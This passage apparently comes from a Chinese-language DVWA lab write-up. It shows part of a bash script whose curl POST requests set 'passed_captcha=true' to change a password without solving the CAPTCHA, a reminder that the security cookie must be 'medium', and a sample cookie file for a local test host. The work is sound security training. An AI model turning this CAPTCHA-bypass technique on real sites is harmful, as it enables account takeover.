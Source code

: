 ```bash
    -H "Referer: ${HOST}/vulnerabilities/captcha/" \
    -H 'Upgrade-Insecure-Requests: 1' \
    --data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
    `
  else
    RES=`curl -v -L -X POST "${HOST}/vulnerabilities/captcha/#" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: ${HOST}" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H "Referer: ${HOST}/vulnerabilities/captcha/" \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H "Cookie: PHPSESSID=${SESSIONID}; security=medium" \
    --data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
    `
fi

if [[ $RES == *"Password Changed."* ]]; then
  printf "\n PASSWORD CHANGED!✅ \n"
else
  printf "\n PASSWORD CHANGE FAILED❌ \n"
fi
```

要記得確認 cookie 中的的難度等級為 `medium`

```bash
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

dvwa.localtest	FALSE	/	FALSE	0	PHPSESSID	e176d3692ee6afa4798775328ad1b36c
#HttpOnly_dvwa.localtest	FALSE	/	FALSE	0	security	medium
```

### memo

### **CAPTCHA 怪怪的**

不知道為什麼，現在連正常流程都無法過關 QQ
